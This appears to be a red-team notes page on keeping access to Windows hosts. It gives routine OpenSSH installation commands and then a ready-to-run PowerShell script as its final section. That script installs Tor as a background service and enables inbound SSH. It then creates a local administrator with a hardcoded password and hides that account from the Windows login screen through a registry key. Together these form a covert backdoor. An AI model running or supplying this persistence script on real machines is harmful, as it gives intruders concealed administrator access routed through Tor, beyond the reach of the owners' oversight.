 # Living off the Land

Search Tag(s): #post-exploitation #maintaining-access #persistence #network-protocols #living-off-the-land #windows

> [!INFO]
> This can work on older operating systems at least from Windows 7 and Windows 2012 R2 (version 6.3.9600).

## 01 - Install OpenSSH

### 1.1 - Command Prompt

TODO: Fill this info

```
C:\> winget search openssh

C:\> winget install --id=Microsoft.OpenSSH.Beta -e
```

```
C:\> Dism /Online /Get-Capabilities | findstr /i "OpenSSH."

C:\> Dism /Online /Add-Capability /CapabilityName:OpenSSH.Client~~~~0.0.1.0

C:\> Dism /Online /Add-Capability /CapabilityName:OpenSSH.Server~~~~0.0.1.0
```

```
C:\> msiexec /i /qn https://github.com/PowerShell/Win32-OpenSSH/releases/download/v9.5.0.0p1-Beta/OpenSSH-Win32-v9.5.0.0.msi
```

### 1.2 - Powershell

```
PS C:\> Get-WindowsCapability -Online | ? Name -Like 'OpenSSH'

PS C:\> Add-WindowsCapability -Online -Name OpenSSH.Client~~~~0.0.1.0

PS C:\> Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0
```

1. Unblock the downloaded OpenSSH archive if necessary: 

```
PS C:\> Invoke-WebRequest https://github.com/PowerShell/Win32-OpenSSH/releases/download/v9.5.0.0p1-Beta/OpenSSH-Win64.zip -OutFile $Env:UserProfile\Downloads\OpenSSH-Win64.zip -UseBasicParsing
```

```
PS C:\> Unblock-File .\$Env:UserProfile\Downloads\OpenSSH-Win64.zip
```

Extract the archive.

```
PS C:\> Expand-Archive .\$Env:UserProfile\Downloads\OpenSSH-Win64.zip -DestinationPath .
```

Copy the `OpenSSH-Win64` folder to your desired location, (e.g. `C:\`)

```
PS C:\> Copy-Item -Recurse .\OpenSSH-Win64\ C:\
```

The `libcrypto.dll` file has to be accessible for all users.

```
PS C:\> icacls C:\OpenSSH-Win64\libcrypto.dll /grant Everyone:RX
```

5. Run `install-sshd.ps1` to create the OpenSSH authentication agent and OpenSSH service for the server. It also sets some permissions and registers an **Event Tracing (ETW)** provider.

```
PS C:\> C:\OpenSSH-Win64\install-sshd.ps1
```

6. Change the service startup to Automatic. The OpenSSH SSH Server service is set to manual as default. 

```
PS C:\> Set-Service -Name sshd -StartupType 'Automatic'

PS C:\> Set-Service -Name ssh-agent -StartupType 'Automatic'
```

```
PS C:\> sc.exe config sshd start= auto

PS C:\> sc.exe config ssh-agent start= auto
```

7. Start the OpenSSH Authentication Agent and SSH Server services: 

```
PS C:\> sc.exe start sshd

PS C:\> sc.exe start ssh-agent
```

```
PS C:\> Start-Service sshd

PS C:\> Start-Service ssh-agent
```

```
PS C:\> Get-NetFirewallRule -Name *OpenSSH-Server* | Select-Object Name, DisplayName, Description, Enabled
```

8. Make sure your Windows Defender Firewall is open for port 22, rule OpenSSH-Server-In-TCP must be enabled. If this rule is not available, manually create it:

```
PS C:\> New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH Server (sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22

PS C:\> New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH SSH Server' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22 -Program "C:\Windows\System32\OpenSSH\sshd.exe"
```

Replace `C:\Windows\System32\OpenSSH\sshd.exe` with the actual path to the `sshd.exe` (`C:\OpenSSH\sshd.exe`, if you followed this instruction). Or go to Control Panel > System and Security > Windows Firewall > Advanced Settings > Inbound Rules and add a new rule for port 22.

Let's connect!

```
PS C:\> ssh -l <username> localhost
```

### 1.3 - Powershell Script

```powershell
Function Install-TOR {
    $temp_directory = "C:\Windows\tmp\"
    mkdir $temp_directory
    
    # Download TOR and NSSM
    $webclient = New-Object System.Net.WebClient
    $tor_url = "https://archive.torproject.org/tor-package-archive/torbrowser/13.5.2/tor-expert-bundle-windows-x86_64-13.5.2.tar.gz"
    $tor_file = $($temp_directory + "tor-expert-bundle-windows-x86_64-13.5.2.tar.gz")
    $nssm_url = "https://nssm.cc/release/nssm-2.24.zip"
    $nssm_file = $($temp_directory + "nssm-2.24.zip")

    $webclient.DownloadFile($tor_url, $tor_file)
    $webclient.DownloadFile($nssm_url, $nssm_file)

    # Extract archive files
    tar.exe xzf $tor_file -C $temp_directory
    Expand-Archive $nssm_file -DestinationPath $temp_directory


    # Delete archive files
    Remove-Item -Force $tor_file
    Remove-Item -Force $nssm_file

	# TODO: Create a torrc in the powershell script
@'

'@ | Out-File "C:\Windows\tmp\tor-expert-bundle-windows-x86_64-13.5.2\tor\torrc"

    Set-Location $($temp_directory + "nssm-2.24\win64\")
    .\nssm.exe install tor $($temp_directory + "tor-expert-bundle-windows-x86_64-13.5.2\tor\tor.exe") "-f C:\Windows\tmp\tor-expert-bundle-windows-x86_64-13.5.2\tor\torrc"

    Set-Service -Name tor -StartupType 'Automatic'
    Start-Service tor
}

Function Install-OpenSSH {
    $temp_directory = "C:\Windows\tmp\"
    $SSH_PORT = 22
    $username = "sysadmin"
    $password = "Passw0rd123!"

    Add-WindowsCapability -Online -Name OpenSSH.Client~~~~0.0.1.0
    sleep 3
    Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0
    sleep 3

    # Automatic startup service
    Set-Service -Name sshd -StartupType 'Automatic'
    Set-Service -Name ssh-agent -StartupType 'Automatic'

    # Start the service
    Start-Service sshd
    Start-Service ssh-agent

    # Accept Incoming Connections
    New-NetFirewallRule -Name sshd -DisplayName "OpenSSH Server" -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort $SSH_PORT

    # Create Local Administrator and Restart OpenSSH server
    sleep 2
    net user $username $password /add
    net localgroup Administrators $username /add
    Set-ItemProperty -Force -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" -Name $username -Type DWord -Value 0
    
    sleep 1
    Restart-Service sshd
    Get-Content $($temp_directory + "host\hostname")
}

Install-TOR
sleep 3
Install-OpenSSH
```

---
## References

- [Powershell: OpenSSH-Portable](https://github.com/PowerShell/openssh-portable)

- [Powershell: Install Win32-OpenSSH](https://github.com/PowerShell/Win32-OpenSSH/wiki/Install-Win32-OpenSSH)

- [TrustedSec: The SOCKS We Have at Home](https://trustedsec.com/blog/the-socks-we-have-at-home)